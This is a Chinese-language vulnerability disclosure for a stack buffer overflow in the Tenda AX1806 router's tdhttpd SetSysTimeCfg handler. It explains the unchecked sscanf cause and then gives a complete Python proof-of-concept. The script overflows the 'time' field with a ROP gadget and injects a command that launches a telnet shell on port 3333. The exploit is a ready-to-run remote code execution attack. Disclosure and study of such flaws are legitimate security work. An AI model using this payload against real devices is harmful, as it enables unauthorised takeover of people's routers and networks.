 # 漏洞描述

设备：Tenda-AX1806 v1.0.0.1 https://www.tenda.com.cn/download/detail-3306.html

漏洞类型：栈溢出

攻击效果：远程任意代码执行或拒绝服务

# 漏洞成因

该漏洞发生于tdhttpd文件的fromSetSysTime函数中，goform/SetSysTimeCfg页面

![image-20220208175329650](image/1.png)

v6通过直接调用sscanf被输入到栈上，而缺少相应的安全检查

而v6来自数据包中的time

因此造成栈溢出，攻击者可借此构造payload进行远程任意代码执行或拒绝服务攻击

# POC

任意代码执行的攻击脚本：

```python
# Title: Exploit of Tenda-AX3's buffer overflow 
# Author: R1nd0&c0rn
# Date: 2022
# Vendor Homepage: https://www.tenda.com.cn/
# Version: AX1806 v1.0.0.1

import requests
from pwn import *

gadget = 0x37208

url = "https://192.168.2.1/goform/SetSysTimeCfg"

timeType = "manual"

time = b"2022-01-01 "

time += b"a" * 0x380 
time += b"bbbb"
time += b";"
time += b"/usr/sbin/utelnetd -l /bin/sh -p 3333"# command
time += b":"
time += b"c" * 0x374 + p32(gadget)

r = requests.post(url, data={'timeType': timeType, 'time': time},verify=False)
print(r.content)
```

